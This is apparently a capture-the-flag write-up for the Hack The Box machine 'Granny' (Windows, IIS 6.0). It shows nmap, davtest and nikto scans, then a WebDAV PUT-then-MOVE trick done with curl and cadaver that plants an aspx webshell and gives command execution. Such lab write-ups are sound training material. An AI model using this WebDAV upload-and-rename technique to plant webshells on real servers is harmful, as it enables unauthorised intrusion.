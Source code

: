 # HTB - Granny
## OS - Windows 

I want to do this box without using Metasploit, so let's see how it goes!

I started with an nmap scan of Granny whose IP address is 10.10.10.15.

```
$nmap -sC -sV -oN granny.nmap 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-26 15:27 PST
Nmap scan report for 10.10.10.15
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sat, 26 Dec 2020 23:31:09 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.45 seconds

```

This is very similar to Grandpa box, so I ran davtest scan like Grandpa.

```
$davtest -url 10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		10.10.10.15
********************************************************
NOTE	Random string for this session: FTVFUmrC1gdYm
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	pl	FAIL
PUT	jsp	FAIL
PUT	aspx	FAIL
PUT	cgi	FAIL
PUT	html	FAIL
PUT	txt	FAIL
PUT	jhtml	FAIL
PUT	php	FAIL
PUT	cfm	FAIL
PUT	shtml	FAIL
PUT	asp	FAIL

********************************************************
/usr/bin/davtest Summary:

```

I ran Nikto scan and Dirbuster too. Dirbuster showed images folder but it was empty.
```
$nikto -host http://10.10.10.15
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-12-26 15:30:36 (GMT-8)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET

```
The "x-powered-by header: ASP.NET" shows that aspx files may execute on the server. 

I tried to upload an aspx file, but it did not work. Text files worked, but not aspx.

```
curl -X PUT http://10.10.10.15/boxy.txt -d @boxy.txt

└──╼ $curl http://10.10.10.15/boxy.txt
Boxing day!

└──╼ $curl -X PUT http://10.10.10.15/boxy.aspx -d @boxy.txt
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>


```

Learned about a tool called cadaver that's a CLI for webdav on Unix. Also, there are webshells in Parrot in /usr/share/webshells. I am using the aspx one from that folder.

I'll try with cadaver and curl to copy the aspx shell. We can't PUT an aspx file directly due to restricted permissions. But the server allows MOVE webdav method, so we can PUT a text file and then MOVE it to aspx.

With cadaver:
```
$cadaver http://10.10.10.15
dav:/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/> put cmdasp.txt
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> move cmdasp.txt Destination:http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/Destination%3ahttp%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/http%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt cmdasp.aspx
Moving `/cmdasp.txt' to `/cmdasp.aspx':  succeeded.
dav:/> 

```
We can do the same thing with curl too. Once that file is changed to aspx, visiting the web page shows a field to enter a command. 

![Granny ASP Shell](/images/granny1.png)



